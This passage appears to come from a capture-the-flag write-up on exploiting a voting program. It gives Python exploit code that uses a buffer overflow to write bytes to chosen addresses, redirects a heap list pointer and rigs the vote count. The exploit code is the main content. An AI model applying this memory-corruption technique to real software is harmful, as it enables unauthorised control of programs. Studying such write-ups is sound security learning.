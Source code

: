 ```python
nominate("no-args")
```

Ok, now that nominations are complete, let's head into voting stage where you'll be able to use the memory-write primitive. **Utilize the buffer-overflow to write "no-args" into the address `0x602030` (one byte at a time)**

```python
def add(addr, value):
    wait_prompt()
    value = value if value>=0 else value+256 # p8() requires bit-equivalent positive value

    echo("2")
    echo("n")
    echo("choose")
    echo(b'yes\0' + b' '*(32-4) + p64(addr - 0x10) + p8(value))

add(emptyblock + 0, ord('n')) # writes to 0x602030
add(emptyblock + 1, ord('o')) # writes to 0x602031
add(emptyblock + 2, ord('-')) # ...
add(emptyblock + 3, ord('a'))
add(emptyblock + 4, ord('r'))
add(emptyblock + 5, ord('g'))
add(emptyblock + 6, ord('s'))
```

We can now **change `list` to straddle two chunks *and* keep a problem named "no-args" in the list**:

```python
# change `list` from pointing at `problem_dummy` to last 8 bytes of the "special name"
add(aout.symbols["list"], -0x10 - 0x20 - 0x20) # go back 2.5 0x20 chunks
# list should point at memory block that starts with pointer to 0x602030
# since 0x602030 now contains "no-args" - no-args will be the first item in the list
```

Now **vote for "no-args" 32 times**:

```python
def vote(name):
    wait_prompt()

    echo("2")
    echo("n")
    wait_prompt()
    echo(name)

# vote for no-args 32 times
for x in range(32):
    vote("no-args")
```

**Increment `list` so that the problem formally known as "dummy" is at the top of the list**:

```python
add(aout.symbols["list"], 0x10) # reset back to "dummy"
# The name now points to a pointer to a heap addr.
```
